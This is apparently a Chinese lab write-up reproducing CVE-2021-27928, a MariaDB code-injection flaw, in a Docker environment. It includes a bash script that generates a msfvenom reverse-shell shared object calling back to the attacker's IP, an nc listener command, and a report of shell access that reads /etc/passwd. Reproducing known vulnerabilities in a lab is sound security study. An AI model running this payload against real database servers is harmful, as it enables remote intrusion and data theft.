





# CVE-2021-27928漏洞复现


## 1.漏洞简介

MariaDB是Mariadb基金会的一套免费开源的数据库管理系统，也是一个采用Maria存储引擎的MySQL分支版本。 MariaDB 10.2.37 版本之前的 10.2 版本，10.3.28 版本之前的 10.3 版本，10.4.18 版本之前的 10.4 版本和 10.5.9 版本之前的 10.5 版本存在代码注入漏洞，不受信任的搜索路径会导致eval注入。


## 2.环境介绍

攻击机：KALI，自带nc, MSF环境

MariaDB版本：10.3.13

环境目录：

```
├── Dockerfile
├── payload.sh
└── poc
    ├── CVE-2021-27928.so
    └── poc.sh
```


## 3.复现过程

启动环境，运行 payload.sh, 会自动获取 eth0 的 IP 地址将 msf 生成的监听 payload 传入 docker 镜像。

```
#!/bin/bash

# 获取eth0网络接口的IP地址
ip=$(ip addr show eth0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}')

if [ -z "$ip" ]; then
  echo "无法获取eth0的IP地址"
  exit 1
fi

# 使用msfvenom生成payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST="$ip" LPORT=4444 -f elf-so -o poc/CVE-2021-27928.so
# 重置容器方便多次测试 
docker stop cve_2021_27928 \
&& docker rm cve_2021_27928 \
&& docker rmi cve_2021_27928
# 启动容器
docker build -t cve_2021_27928 .
docker run -d --name cve_2021_27928  -e MARIADB_ROOT_PASSWORD=root cve_2021_27928 

docker exec -it cve_2021_27928 bash -c "ip a && echo '提示：请开启nc监听后, 在poc目录执行 ./poc.sh'"
```

成功开启环境，并打印出 docker 镜像对应 IP.



先开启新终端，开启 nc 监听。

```sh
nc -lvnp  4444 
```



运行 poc.sh , 输入目标 IP.



输入完毕后，nc 已经收到了反弹 shell.



分别执行了cat etc/passwd , ls , whoami 均正常执行回显。

